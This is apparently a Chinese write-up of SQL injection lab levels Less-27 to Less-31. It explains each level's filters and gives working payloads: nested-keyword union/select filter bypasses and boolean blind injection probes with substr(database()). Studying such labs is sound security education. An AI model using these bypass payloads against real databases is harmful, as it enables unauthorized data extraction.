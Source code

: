 
## Less-27
过滤了union,select等，直接多重绕过
poc
```
100'ununionion(seselselectectlect(1),2,3);%00
```


## Less-28
过滤的字符
```
空格, #, --, union select /**/ 
```
这题一开始我也想像上题那样利用;%00绕过的，后来才发现不行，但是这个恰恰给了我一种完全不同的思路，以前的思路是先用union select，之后尽力绕过后面的单引号。在这道题想了各种方式绕过后面的单引号，但都以失败告终。
现在的思路是不绕过后面的单引号，我们好好利用它，并放弃使用union select模式。

poc
```
id=1'and(if(substr(database(),1,1)='s',1,0))and'1'='1
```
过了这题之后，查看源码才发现
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```
很多时候，后面的是无法注释掉的，一定要好好利用才行，完全转换自己的思路，还是自己太菜了。


## Less-29
index.php的poc
```
id=1'and(if(substr(database(),1,1)='s',1,0))and'1'='1
```

login.php要是开waf，做不出来




## Less-30

和上两题相比，就是单引号变双引号的区别(index.php)
poc
```
id=1"and(if(substr(database(),1,1)="s",1,0))and"1"="1
```

login.php要是开waf，做不出来


## Less-31

poc
```
id=1"and(if(substr(database(),1,1)="s",1,0))and"1"="1
```

